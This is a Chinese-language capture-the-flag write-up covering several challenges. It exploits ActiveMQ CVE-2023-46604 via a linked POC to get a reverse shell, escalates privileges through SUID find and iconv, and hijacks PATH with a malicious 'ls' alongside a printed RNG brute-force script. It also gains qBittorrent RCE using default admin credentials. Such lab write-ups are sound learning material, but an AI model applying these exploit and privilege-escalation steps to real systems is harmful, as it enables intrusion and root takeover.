

tags:: ActiveMQ

- # Reverse and Escalation.
  id:: 65d857c5-5902-47f4-b400-23c5b972bba5
	- 访问给的两个端口，其中一个端口返回了ActiveMQ的相关信息
	- 在网上找到一个和ActiveMQ相关的[WP](https://0xdf.gitlab.io/2023/11/09/htb-broker.html#)，~~貌似是原题？~~就是原题
		- [大佬的分析](https://exp10it.cn/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/?ref=deep-kondah.com)
	- 直接拿着[POC](https://github.com/evkl1d/CVE-2023-46604)复现即可拿到reverse shell
		- POC需要两个端口，一个端口用来搭建HTTP服务器向外提供exp.xml的URL，另一个端口用来等待reverse shell
	- 最后find提权
		- ```shell
		  find / -perm -u=s -type f 2>/dev/null # 寻找suid文件
		  find . -exec sh -p \; -quit # 提权到root
		  ```
- # Reverse and Escalation.II
	- RCE步骤和 ((65d857c5-5902-47f4-b400-23c5b972bba5)) 一样
	- 然后提权，注意到find二进制不是正常的find程序，而是一个自己写的程序
	- 下载下来反编译
		- 
		- 这里的随机数种子是当前的时间戳，一个整数，所以可以在一秒内爆破出这里的所有随机数，从而执行最下面的`system("ls");`
		- 然后因为这里的system函数直接执行了ls, 可以使用环境变量欺骗这个二进制执行恶意的ls二进制
	- 写一个脚本爆破出所有的随机数，再写一个脚本作为恶意的ls文件
		- `exp.sh`
			- ```shell
			  #!/bin/sh
			  export PATH=.:$PATH
			  result=$(find 1 | grep -oP '\d+ \+ \d+' | tail -n 1)
			  a=${result[0]}
			  b=${result[2]}
			  sum=$((a+b))
			  nums=($sum )
			  for i in $(seq 1 38); do
			    result="$(find ${nums[@]} 1 | grep -oP '\d+ \+ \d+' | tail -n 1)"
			    a=${result[0]}
			    b=${result[2]}
			    sum=$((a+b))
			    nums[$i]=$sum
			  done
			  echo ---
			  find ${nums[@]}
			  ```
		- `ls`
			- ```shell
			  #!/bin/sh
			  echo im executed
			  sh
			  ```
		- 把上面这两个文件丢到目标的同一个文件夹内执行就行
- # Whose Home?
	- 有两个flag
	- 默认账号密码(`admin`/`adminadmin`)登陆qBitorrent
	- 使用设置中的`Run external program`功能实现RCE
	- 然后用有SUID的iconv程序实现读取第一个flag
		- ```shell
		  iconv -f utf-8 -t utf-8 /flag
		  ```
		- [支持通过SUID提权的软件](https://gtfobins.github.io/)
- # 火箭大头兵
	- > 施工中，未解出
	- flag可能放在profile或者private message中